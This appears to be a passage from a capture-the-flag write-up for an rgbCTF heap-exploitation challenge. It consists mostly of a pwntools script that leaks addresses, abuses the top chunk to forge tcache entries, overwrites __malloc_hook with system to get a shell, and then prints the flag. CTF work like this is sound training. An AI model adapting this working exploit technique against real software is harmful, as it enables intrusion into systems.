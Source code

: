 ```python
    return num
  return (0xffffffffffffffff ^ abs(num)) + 1
def conn():
    if args.LOCAL:
        return process(["./ld-2.27.so",e.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("challenge.rgbsec.xyz",6969)
p = conn()
rickroll = 0xf08
heapoffset = 0x280
topchunk = 0x298
newsize = 0xffffffffffffffd9
p.sendlineafter('> ', str(PARTYSIZE))
p.recvuntil("> ")
p.sendline(str(PARTYSIZE))
p.recvuntil("> ")
p.sendline(b"t")
leak = singSong()
e.address = leak - rickroll
log.info(f"Binary base: {hex(e.address)}")
chooseSong(0x10,b'2nd')
heapleak = singSong()
log.info(f"Heap leak: {hex(heapleak)}")
heapbase = heapleak - heapoffset
log.info(f"Heap base: {hex(heapbase)}")
topchunk += heapbase
perthread = heapbase + 0x10
log.info(f"tcache_perthread_struct: {hex(perthread)}")
reqsize = perthread - topchunk - 16 - 8
reqsize = twoscomplement(reqsize)
log.info(f"Size to request: {hex(reqsize)}")
log.info(f"Size as decimal: {reqsize}")
chooseSong(reqsize,dodata=False)
# Top chunk at tcache_perthread_struct
# Ask for 0x230 size chunk, we get to mess up the tcache
fakestruct = b'\x02\x01\x02'.ljust(64,b'\x00')
fakestruct += p64(e.got['puts']) + p64(e.address + 0x000000000202000 + 0x100) + p64(e.address + 0x000000000202000 + 0x100)
chooseSong(0x230,fakestruct)
chooseSong(0,dodata=False)
chooseSong(0,dodata=False)
libcleak = singSong()
libcbase = libcleak - libc.symbols['puts']
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
chooseSong(0x20,p64(libc.symbols['__malloc_hook'])) # Put inside of 0x40 tcache bin
chooseSong(0x30)
chooseSong(0x30,p64(libc.symbols['system']))
log.info("/bin/sh pointer as decimal: {}".format(next(libc.search(b"/bin/sh\x00"))))
binsh = next(libc.search(b"/bin/sh\x00"))
p.sendlineafter("> ","1")
p.sendlineafter("> ",str(binsh))
p.interactive()
```

#### rgbCTF{l3ts_g31_th1s_bre@d}
